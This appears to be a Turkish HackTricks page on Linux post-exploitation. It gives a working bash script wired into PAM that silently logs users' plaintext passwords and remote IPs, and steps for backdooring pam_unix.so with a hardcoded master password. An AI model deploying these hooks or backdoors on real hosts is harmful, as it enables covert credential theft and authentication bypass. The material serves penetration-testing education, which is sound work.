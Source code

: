 # Linux Post-Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## PAM ile Giriş Parolalarını Dinleme

Her kullanıcının giriş yapmak için kullandığı parolayı kaydetmek için bir PAM modülü yapılandıralım. PAM'ın ne olduğunu bilmiyorsanız kontrol edin:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Daha fazla detay için [orijinal gönderiyi](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) kontrol edin**. Bu sadece bir özet:

**Teknik Genel Bakış:**
Eklentili Kimlik Doğrulama Modülleri (PAM), Unix tabanlı sistemlerde kimlik doğrulama yönetiminde esneklik sunar. Giriş süreçlerini özelleştirerek güvenliği artırabilir, ancak kötüye kullanıldığında riskler de oluşturabilir. Bu özet, PAM kullanarak giriş kimlik bilgilerini yakalamak için bir tekniği ve azaltma stratejilerini özetlemektedir.

**Kimlik Bilgilerini Yakalama:**
- `toomanysecrets.sh` adlı bir bash betiği, giriş denemelerini kaydetmek için oluşturulmuştur; tarih, kullanıcı adı (`$PAM_USER`), parola (stdin üzerinden) ve uzak ana bilgisayar IP'si (`$PAM_RHOST`) `/var/log/toomanysecrets.log` dosyasına kaydedilir.
- Betik çalıştırılabilir hale getirilir ve `pam_exec.so` modülü kullanılarak PAM yapılandırmasına (`common-auth`) entegre edilir; bu, sessizce çalıştırma ve kimlik doğrulama belirtecini betiğe açma seçenekleri ile yapılır.
- Bu yaklaşım, ele geçirilmiş bir Linux ana bilgisayarının kimlik bilgilerini gizlice kaydetmek için nasıl istismar edilebileceğini göstermektedir.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAM'ı Arka Kapı ile Değiştirme

**Daha fazla detay için [orijinal yazıya](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9) bakın**. Bu sadece bir özet:

Eklentili Kimlik Doğrulama Modülü (PAM), Linux altında kullanıcı kimlik doğrulaması için kullanılan bir sistemdir. Üç ana kavram üzerinde çalışır: **kullanıcı adı**, **şifre** ve **hizmet**. Her hizmet için yapılandırma dosyaları `/etc/pam.d/` dizininde bulunur; burada paylaşılan kütüphaneler kimlik doğrulamasını yönetir.

**Amaç**: PAM'ı, belirli bir şifre ile kimlik doğrulamasına izin verecek şekilde değiştirmek, gerçek kullanıcı şifresini atlayarak. Bu, neredeyse tüm hizmetler tarafından şifre doğrulaması için kullanılan `common-auth` dosyasında yer alan `pam_unix.so` paylaşılan kütüphanesine özellikle odaklanmaktadır.

### `pam_unix.so`'yu Değiştirme Adımları:

1. **common-auth** dosyasında Kimlik Doğrulama Yönergesini Bulun:
- Bir kullanıcının şifresini kontrol eden satır `pam_unix.so`'yu çağırır.
2. **Kaynak Kodunu Değiştirin**:
- `pam_unix_auth.c` kaynak dosyasına, önceden tanımlanmış bir şifre kullanıldığında erişim izni veren bir koşullu ifade ekleyin, aksi takdirde normal kimlik doğrulama sürecine devam edin.
3. **Derleyin ve Değiştirilmiş** `pam_unix.so` kütüphanesini uygun dizinde değiştirin.
4. **Test**:
- Önceden tanımlanmış şifre ile çeşitli hizmetlere (giriş, ssh, sudo, su, ekran koruyucu) erişim izni verilirken, normal kimlik doğrulama süreçleri etkilenmez.

{% hint style="info" %}
Bu süreci [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) ile otomatikleştirebilirsiniz.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarına**](https://github.com/sponsors/carlospolop) göz atın!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
